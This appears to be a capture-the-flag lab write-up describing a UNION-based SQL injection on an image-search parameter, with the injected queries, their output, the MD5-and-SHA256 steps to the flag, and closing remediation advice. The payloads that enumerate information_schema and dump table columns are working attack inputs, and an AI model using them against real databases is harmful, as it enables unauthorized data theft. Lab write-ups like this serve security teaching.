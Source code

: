# SQL injection on the image search field in the image search page

## Vulnerability Details:

### Affected URL: `http://{IP_ADDR}/?page=searchimg&id=`

### Issue Description:
This security issue pertains to a vulnerability in the SQL injection within the website. SQL expressions are treated as intended rather than being escaped or treated as regular strings. This vulnerability allows us to exploit the system and extract data from the database by sending requests through the input field.

### Potential Exploitation:
Since the input field expects an ID number, the corresponding SQL query should resemble:
```
SELECT title, url FROM list_images WHERE images.id = ${input_value}
```
The query would print the title and the url of the image with the given image ID. Since we don't need the website to display data about any specific image, we can choose the ID `-1`, which is unlikely to match any existing ID.<br />
<br />
To append our request after the original query, we can use the `UNION` operator, and perform an UNION-based SQL injection attempt, which combines the result sets of two or more `SELECT` statements:
```
SELECT title, url FROM list_images WHERE images.id = -1 UNION SELECT XXX FROM XXX
```
This allows us to execute our exploit immediately after the original request.<br />
<br />
We aim to retrieve data from the `information_schema`. In SQL, `information_schema` is a schema providing metadata about database objects. We are particularly interested in the `table_name` and `column_name` columns from `information_schema.columns` to understand the general structure of the database.<br />
<br />
With this in mind, we have:<br />
<br />
INPUT:
```
-1 UNION SELECT table_name, column_name FROM information_schema.columns
```

OUTPUT:
```
ID: -1 UNION select table_name, column_name FROM information_schema.columns 
Title: title
Url : list_images

ID: -1 UNION SELECT table_name, column_name FROM information_schema.columns 
Title: comment
Url : list_images
```

The result reveals a `list_images` table, which should correspond to the available table, and two interesting columns: `title` and `comment`. Subsequently, we will send the following request to retrieve these two fields from all images in the database:<br />
<br />
INPUT:
```
-1 UNION SELECT title, comment FROM list_images
```

OUTPUT:
```
ID: -1 UNION SELECT title, comment FROM list_images
Title: Hack me ?
Url : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```
So, we decoded the MD5 string which gives `albatroz` and then calculated the `SHA256` sum of it to obtain the flag.

### Immediate Actions Required:
* SQL Injection Prevention:
   - Perform input validation and sanitization to prevent SQL injection attacks.
   - Use parameterized queries or prepared statements to handle dynamic SQL queries securely.
   - Implement strict access controls and least privilege principles to restrict database access.
